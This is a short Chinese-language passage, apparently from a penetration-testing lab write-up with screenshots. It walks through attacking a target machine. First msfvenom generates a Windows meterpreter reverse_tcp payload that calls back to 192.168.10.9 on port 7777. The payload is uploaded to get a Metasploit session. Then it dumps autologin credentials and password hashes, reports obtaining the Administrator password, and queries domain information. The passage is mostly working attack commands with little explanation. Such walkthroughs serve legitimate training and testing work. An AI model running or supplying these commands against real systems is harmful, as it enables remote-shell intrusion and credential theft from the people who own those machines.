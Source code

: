   
生成一个
```
payload
```

  
: 
```
msfvenom.bat -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.10.9 LPORT=7777 -f exe > shell.exe
```

  
, 上传到靶机后, 
```
MSF
```

  
上线.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4ONiaxX9OXZMM32NiaFdK0a8bZ4zNjiac0BbpgTb12taK5Fic9pCEficWDhicQ/640?wx_fmt=png&from=appmsg "")  
  
抓一下密码:  
- 抓取自动登录的密码: 
```
run windows/gather/credentials/windows_autologin
```

  
.  
  
- 导出密码哈希: 
```
hashdump
```

  
.  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4OcbVyicHZMxJc4zlyiaVcqb9QdJIm81VIoPvnhvuaIFfib37bFWjAqGRibA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4Ovtic4vrg8EbjBI7ITUoQXeREibSobzWh8cJuN5JGzbkF0A6ExibA5GdOw/640?wx_fmt=png&from=appmsg "")  
  
拿到
```
Administrator
```

  
的密码
```
Admin12345
```

  
, 同时查询域信息: 
```
net view /domain
```
